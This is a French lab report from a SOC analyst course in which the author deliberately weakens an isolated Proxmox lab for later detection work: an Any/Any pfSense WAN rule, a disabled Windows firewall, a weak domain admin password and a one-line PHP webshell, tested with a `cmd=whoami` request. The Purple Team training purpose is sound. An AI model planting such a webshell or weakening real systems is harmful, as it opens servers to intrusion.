










# Phase 1 - Déploiement des Services et Création Intentionnelle de Vulnérabilités

**Environnement :** Home Lab virtuel sur Proxmox pour le projet Iron4Software — Formation Analyste SOC - CyberUniversity (Liora x Sorbonne).

## Objectif du Lab
Faisant suite à la mise en place de notre fondation réseau isolée, l'objectif de cette étape est de configurer les services métier et d'y introduire délibérément des failles de sécurité et des erreurs de configuration critiques. En tant qu'analyste SOC, cette démarche "Purple Team" me permet de forger une surface d'attaque réaliste, indispensable pour générer ultérieurement la télémétrie malveillante qui alimentera nos règles de détection SIEM.

## Outils et Technologies
- **Pare-feu/Routeur :** pfSense (Règles de filtrage, NAT/Port Forwarding).
- **Serveur Web :** Ubuntu Server, Apache2, PHP (Création de Webshell).
- **Contrôleur de Domaine :** Windows Server 2019 (Désactivation pare-feu, RDP).
- **Framework MITRE ATT&CK :** T1190 (Exploit Public-Facing Application), T1059.003 (Command and Scripting Interpreter), T1021.001 (Remote Desktop Protocol).

## 1. Contexte et Lien Architectural
Maintenant que les zones WAN et LAN communiquent physiquement via le routeur, le réseau est par défaut protégé par la politique stricte de pfSense (qui bloque tout trafic entrant non sollicité). Pour rendre notre audit offensif (Phase 2) possible, je dois transformer cette forteresse en "passoire" contrôlée, tout en préparant nos cibles internes.

## 2. Affaiblissement du Périmètre : Configuration du Pare-feu (pfSense)

Pour opérer ces modifications, j'ai utilisé la machine Windows Server 2019 (WS2019-AD) comme poste de rebond pour accéder à l'interface d'administration web du pfSense via son adresse LAN (`http://192.168.3.253`), en m'authentifiant avec les identifiants par défaut (`admin` / `pfsense`).

### A. Désactivation des protections de base et Règle Permissive (WAN)
Pour garantir que la machine d'attaque (Kali) puisse interagir avec le réseau sans entrave, j'ai appliqué deux modifications critiques sur l'interface WAN :
1. **Désactivation du blocage des Bogons :** Dans les paramètres de l'interface WAN, j'ai décoché l'option "Block bogon networks".

2. **Création d'une règle "Allow All" :** J'ai ajouté une règle de filtrage autorisant absolument tout le trafic entrant (Action : Pass, Protocol : Any, Source : Any, Destination : Any).

3. **Vérification des règles LAN :** Pour les règles LAN, il y a normalement par défaut une règle "Default allow LAN to any rule" pour IPv4 et IPv6, donc le LAN peut sortir.

*Contexte SOC & Blue Team :* Dans un environnement de production, configurer une règle "Any/Any" en entrée sur une interface publique est une faute professionnelle grave. Pour notre laboratoire, c'est le scénario cauchemar idéal : nous venons de dérouler le tapis rouge à toute tentative d'intrusion externe.

### B. Exposition du Serveur Web via NAT (Port Forwarding)
Le pare-feu laisse désormais passer le trafic, mais il doit encore savoir où l'acheminer. J'ai configuré une règle de traduction d'adresse réseau (NAT) pour lier le monde extérieur à notre serveur web interne :
- **Interface :** WAN
- **Protocole :** TCP
- **Port de destination :** HTTP (80)
- **IP cible (Redirect target IP) :** `192.168.3.11` (Ubuntu-Web)
- **Port cible :** HTTP (80)

Grâce à cette règle, toute requête HTTP frappant l'IP publique du pare-feu est silencieusement redirigée vers notre machine Ubuntu vulnérable dans le LAN.

## 3. Sabotage Interne : Préparation du Windows Server 2019

En prévision des techniques de post-exploitation et de mouvement latéral de la Phase 2, j'ai volontairement affaibli la posture de sécurité de notre Contrôleur de Domaine ("Le Joyau" de l'infrastructure) :
1. **Désactivation du Pare-feu Windows Defender :** J'ai coupé les profils de domaine, privé et public du pare-feu local.

2. **Activation du Bureau à Distance (RDP) :** J'ai autorisé les connexions à distance, ouvrant de fait le port `3389`.

Cette configuration prépare le terrain pour la technique MITRE T1021.001. Si l'attaquant parvient à pivoter depuis le serveur Web vers le réseau LAN, le serveur Windows n'opposera aucune résistance réseau.

3. **Attribution d'un mot de passe faible :** Le compte Administrateur du domaine a été configuré avec un mot de passe délibérément prédictible et vulnérable aux attaques par dictionnaire (`Admin123`), sans aucune politique de verrouillage de compte (Account Lockout Policy) en cas d'échecs multiples.

*Contexte SOC & Blue Team :* L'ouverture du port RDP combinée à l'utilisation d'un mot de passe faible est le vecteur idéal pour un mouvement latéral. Savoir que l'attaquant devra forcer cette authentification me donne un avantage défensif majeur : lors de la Phase 4, je pourrai auditer les journaux de sécurité Windows via Splunk pour traquer la multiplication de l'Event ID 4625 (Échec d'ouverture de session) et ainsi créer une alerte de détection de brute-force en temps réel.

## 4. Déploiement de l'Application Vulnérable et de la Backdoor (MITRE ATT&CK T1190)

L'étape finale consiste à déployer le service web et la vulnérabilité qui servira de point d'entrée initial (Initial Access). 

### Installation des services
Sur la machine `Ubuntu-Web`, j'ai mis à jour les dépôts et installé le serveur web et son interpréteur :
`sudo apt update && sudo apt install apache2 php -y`

### Scénario de l'attaque et Injection du Webshell
Dans notre scénario d'entreprise Iron4Software, le site web dispose d'une page de recrutement permettant d'uploader un CV. En raison d'un défaut de validation des extensions de fichiers côté développeur, un attaquant peut contourner les filtres et uploader un script malveillant. 

Pour simuler cette faille d'upload sans avoir à développer un site web complet, j'ai injecté manuellement le fichier `shell.php` à la racine du serveur web via la commande suivante :
`echo '<?php system($_GET["cmd"]); ?>' | sudo tee /var/www/html/shell.php`

**Analyse technique de la commande et de la faille :**
- L'utilisation du *pipe* (`|`) couplée à `sudo tee` permet d'écrire le flux généré par `echo` directement dans le répertoire web `/var/www/html/`, qui nécessite des droits d'administration (root).
- Le code `<?php system($_GET["cmd"]); ?>` est une backdoor (Webshell) redoutable. La fonction PHP `system()` indique au système d'exploitation d'exécuter aveuglément toute commande Bash passée en paramètre `cmd` dans l'URL.

*Note SOC :* J'ai volontairement utilisé la méthode HTTP GET plutôt que POST. La méthode GET expose la commande malveillante directement dans l'URL, ce qui garantit son enregistrement en clair dans le fichier access.log d'Apache. Un attaquant furtif privilégierait la méthode POST pour cacher sa charge utile (payload), ce qui nécessiterait une inspection plus profonde (ex: capture de paquets ou logs applicatifs avancés) pour la détection.

### Test de Validation (Preuve de Concept)
Pour valider l'exécution de code à distance (RCE), j'ai effectué un test depuis le navigateur du client Windows interne en ciblant l'URL :
`http://192.168.3.11/shell.php?cmd=whoami`

En naviguant vers cette adresse spécifique, je force le paramètre GET `cmd` à transmettre la commande système `whoami` directement à la fonction PHP vulnérable que je viens de créer. C'est la concrétisation de l'exploit : utiliser une simple requête web malveillante pour obliger le serveur à exécuter une instruction d'administration à ma place.

L'affichage de la réponse `www-data` sur la page web confirme le succès total de l'opération. Ce résultat prouve que la commande n'a pas été traitée comme du texte inoffensif, mais a bel et bien été exécutée par le système d'exploitation sous l'identité du compte de service Apache (qui s'appelle par défaut `www-data` sous Ubuntu). L'infrastructure est officiellement compromise, validant ma capacité d'exécution de code à distance (RCE), et prête à être exploitée par la machine d'attaque Kali.

## Implications pour un Analyste SOC
La création délibérée de cette chaîne de vulnérabilités est un exercice formateur fondamental. Comprendre intimement comment une règle NAT expose un service, comment une erreur de développement mène à un webshell, et comment ce webshell interagit avec le système d'exploitation (exécution de commandes via l'utilisateur `www-data`) me donne un avantage critique pour la phase de défense. Cela me permettra de savoir exactement quoi chercher dans les journaux d'accès Apache (`access.log`) et de calibrer mes futures alertes Splunk pour détecter les arguments suspects passés dans les requêtes HTTP (méthode GET).

---
*Fin du rapport de Lab.*